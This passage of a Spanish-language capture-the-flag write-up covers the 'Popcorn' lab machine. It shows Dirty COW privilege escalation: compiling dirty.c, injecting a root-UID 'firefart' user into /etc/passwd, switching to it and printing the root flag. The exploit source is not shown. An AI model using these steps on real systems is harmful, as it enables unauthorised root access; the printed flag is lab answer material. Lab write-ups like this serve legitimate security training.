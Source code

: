 Vamos a compilarlo

```bash
www-data@popcorn:/tmp$ cat dirty.c | grep gcc
//   gcc -pthread dirty.c -o dirty -lcrypt
www-data@popcorn:/tmp$ 
```

```bash
www-data@popcorn:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
www-data@popcorn:/tmp$ ls
dirty  dirty.c	vgauthsvclog.txt.0  vmware-root
www-data@popcorn:/tmp$ 
```

Esto lo que hace es que en el **/etc/passwd** va a tratar de inyectar un nuevo usuario con una contraseña que nosotros le vamos a dar para poder migrar de www-data al usuario, en mi caso pondré la contraseña hola

```bash
www-data@popcorn:/tmp$ ./dirty  
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fiWV.l3JFnVCk:0:0:pwned:/root:/bin/bash

mmap: b7765000
^C
www-data@popcorn:/tmp$ 
```

Vemos que nos agrega un usuario el identificador del usuario pertenece a root 

```bash
www-data@popcorn:/tmp$ cat /etc/passwd | head -n 1
firefart:fiWV.l3JFnVCk:0:0:pwned:/root:/bin/bash
www-data@popcorn:/tmp$ 
```

## Shell as root && root.txt 

Somos **firefart** pero estamos operando como root 

```bash
www-data@popcorn:/tmp$ su firefart
Password: 
firefart@popcorn:/tmp# whoami
firefart
firefart@popcorn:/tmp# cat /root/root.txt
aac7e6adbf1f57d0402406a90534f934
firefart@popcorn:/tmp# 
```


